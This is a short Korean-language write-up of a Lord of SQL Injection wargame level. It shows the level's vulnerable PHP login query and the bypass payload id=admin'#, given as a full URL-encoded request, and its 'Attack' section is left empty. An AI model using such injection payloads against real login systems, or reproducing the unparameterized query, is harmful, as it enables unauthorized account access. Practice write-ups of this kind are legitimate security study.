

# **LOS gramlin**

##  **Keys**
>php source
```php
<?php
  <?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
`id` 값이 `admin` 인 것만 확인하기때문에 `id` 에 `admin` 을 넣고 뒤에 주석처리를 하면 된다.  


##  **Query**
>Query
```php
select id from prob_cobolt where id='admin'#
```

>Input value
```
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%23
```
`%27` 은 `'` 이고, `%23` 은 `#` 이다.

##  **Attack**
